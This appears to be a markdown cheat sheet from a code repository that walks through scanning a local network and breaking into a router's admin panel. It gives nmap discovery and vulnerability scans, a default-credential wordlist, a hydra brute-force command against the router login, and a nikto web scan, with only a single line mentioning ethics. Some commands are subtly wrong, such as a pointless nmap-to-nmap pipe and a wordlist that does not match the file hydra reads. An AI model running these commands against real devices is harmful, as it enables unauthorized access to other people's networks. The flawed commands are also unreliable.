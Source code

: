 # Network Scanning and Information Gathering

## Network Scan
###### - To scan devices on the network and save the results:
```bash
nmap -sn 192.168.1.0/24 > "/home/username/network_scan_results_$(date +%F_%T).txt"
```
###### - The "username" section is entered by default. Please enter the information according to your own username.

##### To find the default gateway:
```bash
ip route show
```

###### -  Access the router's admin panel (example):
```bash
http://192.168.1.1
```

## Router Password Cracking
###### -  To obtain the specific default password according to your router model, you can check this site.
###### - https://www.routerpasswords.com/
##### - The following command saves a list of default usernames and passwords as a wordlist for accessing the router's admin panel. However, if you have already visited the website https://www.routerpasswords.com/, this step is not necessary as the site provides the default login credentials for various router models.
###### - However, you still need to create a wordlist.
```bash
echo -e "admin:admin\nadmin:1234\nadmin:password\nroot:root\nroot:12345\nuser:user\nguest:guest" > router_wordlist.txt
```

## Brute Force and Vulnerability Scanning
##### - Brute Force Password Cracking
###### - This command attempts to brute-force the admin username with passwords from a given wordlist file on the target router's web login page (via HTTP GET method). The output is not saved or displayed, as it is directed to /dev/null.
```bash
hydra -l admin -P /home/username/wordlist.txt 192.168.1.1 http-get / -t 4 -w 30 | tee /dev/null
```
## Vulnerability Scanning
```bash
nmap --script vuln 192.168.1.1
```
```bash
nmap --script http-vuln* 192.168.1.1 | nmap --script ftp-vuln*,ssl-*,smtp-vuln* 192.168.1.1
```
###### - In the example, the address is "192.168.1.1".

## Web Interface Analysis
```bash
nikto -h http://192.168.1.1
```

### This document contains basic tools and commands for security and anonymity. It's important to follow ethical guidelines during usage.
